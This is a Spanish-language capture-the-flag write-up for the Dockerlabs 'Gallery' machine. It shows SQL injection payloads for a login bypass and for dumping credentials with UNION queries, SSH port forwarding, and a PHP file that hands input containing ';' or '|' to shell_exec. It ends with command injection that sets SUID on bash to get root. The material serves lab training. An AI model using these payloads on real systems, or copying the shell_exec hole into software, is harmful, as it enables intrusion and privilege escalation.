

# 🖥️ Write-Up: [GALLERY](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Gallery
    - Plataforma: Dockerlabs
    - Dificultad: Difícil
    - Creador: cxfr4
    - OS: Linux
---

## 🔍 Enumeración

La máquina Gallery posee la IP 172.17.0.2.

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos. Para ello, vamos a recurrir a la herramienta **nmap**.


La máquina tiene abiertos los puertos 22 y 80, así que vamos a proceder a descubrir los servicios y versiones que ejecutan.


Como no disponemos de credenciales y esa versión de OpenSSH no es vulnerable, vamos a analizar el puerto 80.


### Puerto 80

Si accedemos con el navegador a la IP de la máquina podemos ver un portal de una galería de arte con un botón "Inicar sesión". 


Revisando su código fuente no se encuentra nada interesante, así que pulsamos el botón de "Iniciar sesión" y vemos el panel de login.


Intentamos entrar con las típicas credenciales, admin:admin, admin:admin123, admin:password,... sin resultado, por lo que vamos a introducir una comilla simple (') en el campo "username" para ver su comportamiento.


Como vemos, es vulnerable a una SQL Injection, por lo tanto, vamos a introducir en el campo username `'or 1=1-- -` y una contraseña cualquiera.

Conseguimos acceder al dashboard, el cual dispone de dos funcionalidades, en la parte superior podemos registar obras de arte y en la parte inferior tenemos un sistema de búsqueda.


## 🔥 Explotación

En la parte de registro de obras no hemos conseguido obtener nada pero, en el apartado de búsqueda, al introducir una comilla simple ('), como habíamos hecho antes, nos vuelve a arrojar un error de sql.


Antes de realizar la inyección, debemos de averiguar el número de columnas de la consulta, para ello tenemos que ir probando diferentes números hasta ver cual es el número anterior al último que produce el error.

Primero probamos con 100 columnas introduciendo en el campo de búsqueda `'order by 100-- -` y como hay menos de 100 columnas nos devuelve un error.

Si usamos `'order by 5-- -` la página carga con normalidad pero si usamos `'order by 6-- -` vemos que se produce el error de sql, es decir, introduciendo 5 o menos columnas en el `order by` la página carga correctamente pero si ponemos más, nos lanza el error de sql. Esto nos indica que la consulta usa 5 columnas.


Entonces, vamos a proceder a realizar una SQL Injection UNION. Ya que la consulta se tramita por GET usando el parámetro search_term, vamos a usar la url para realizar las inyecciones.

Primero, tenemos que averiguar las bases de datos existentes y como tenemos 5 columnas debemos de colocar 5 campos en el union select, así que escribimos `'union select 1,2,schema_name,4,5 from information_schema.schemata-- -`


Vemos los nombres de las bases de datos. Nos vamos a centrar en secret_db, por lo que ahora nuestra inyección listará las tablas de esta base de datos `'union select 1,2,table_name,4,5 from information_schema.tables where table_schema='secret_db'-- -`



Únicamente tenemos la tabla secret, así que toca enumerar sus columnas `'union select 1,2,column_name,4,5 from information_schema.columns where table_schema='secret_db' and table_name='secret'-- -`


Nos interesa ver el contenido de las columnas ssh_users y ssh_pass de la tabla secret, por lo que la inyección sería `'union select 1,ssh_users,ssh_pass,4,5 from secret_db.secret-- -`


Obtenemos al usuario **sam**,  y su contraseña **$uper$ecretP4$$w0rd123** 

## 🔑 Acceso SSH

Con estas credenciales nos conectamos por ssh al puerto 22 
```bash
ssh sam@172.17.0.2
```


Tras revisar el sistema encontramos el directorio de un servicio web que no corresponde con la galería de arte en **/var/www/terminal**, en él tenemos un index.php, con una parte que ejecuta comandos.

```php
$output = isset($_POST['command']) ? '' : $header;
$commands = ['help', 'list_art', 'show_artists', 'check_status', 'view_logs', 'system_info'];

if (isset($_POST['command'])) {
    $cmd = $_POST['command'];
    if ($cmd === 'help') {
        $output = "Available commands:\n";
        $output .= "----------------\n";
        foreach ($commands as $command) {
            $output .= "- $command\n";
        }
        $output .= "\nGallery Management System - Admin Interface";
    } else if ($cmd === 'list_art') {
        $output = "Current Artworks:\n";
        $output .= "- La noche estrellada (ID: 1)\n";
        $output .= "- Mona Lisa (ID: 2)\n";
        $output .= "Status: Display Only Mode";
    } else if ($cmd === 'show_artists') {
        $output = "Registered Artists:\n";
        $output .= "- Vincent van Gogh\n";
        $output .= "- Leonardo da Vinci\n";
        $output .= "Access Level: Read Only";
    } else if ($cmd === 'check_status') {
        $output = "Gallery System Status:\n";
        $output .= "- Database: Connected\n";
        $output .= "- Backup: Enabled\n";
        $output .= "- Security: Enhanced\n";
        $output .= "- Last Check: " . date("Y-m-d");
    } else if ($cmd === 'view_logs') {
        $output = "Recent Activity:\n";
        $output .= "- [INFO] System startup\n";
        $output .= "- [WARN] Failed login attempt\n";
        $output .= "- [INFO] New artwork added\n";
        $output .= "Access: Restricted";
    } else if ($cmd === 'system_info') {
        $output = "Gallery Management System\n";
        $output .= "Version: 1.0\n";
        $output .= "Environment: Production\n";
        $output .= "Access Level: Guest";
    } else if (strpos($cmd, ';') !== false || strpos($cmd, '|') !== false) {
        // Aquí es donde realmente ejecutamos comandos
        $output = shell_exec($cmd);
    } else {
        $output = "Command not found. Type 'help' for available commands.";
    }
    $output = $header . "\n" . $output;
}
?>
```

Podemos ver como se trata de una especia de terminal que permite ejecutar una serie de comandos ya definidos, pero al final del código vemos un **shell_exec** que ejecuta el comando que le pasamos si este lleva  un punto y coma (;) o un pipe (|).

Ahora bien, hay que comprobar si este archivo index.php se está ejecutando de forma interna en la máquina, para ello usamos el comando `ps -faux`


Y efectivamente, el usuario root lo está ejecutando internamente en el puerto 8888. Como disponemos de credenciales del servicio ssh, vamos a usar port forwarding para traernos ese puerto que se ejecuta internamente en la máquina a nuestro puerto 8888.

```bash
ssh -L 8888:127.0.0.1:8888 sam@172.17.0.2
```

De esta forma, accediendo a nuestro localhost por el puerto 8888 veremos el servicio web que se ejecutaba internamente en la máquina.


## 🧗 Escalada de Privilegios

Como hemos visto en el archivo index.php, si añadimos un punto y coma (;) o un pipe (|) nos ejecutará el comando con shell_exec.

Así que introducimos `whoami;`


Por lo tanto, podemos ejecutar comandos como root. Vamos a darle permisos SUID a la bash con `chmod u+s /bin/bash;` 


Tras pulsar enter, miramos la bash en la terminal y ya tiene permisos SUID, así que nos lanzamos una bash privilegiada y ya somos root.

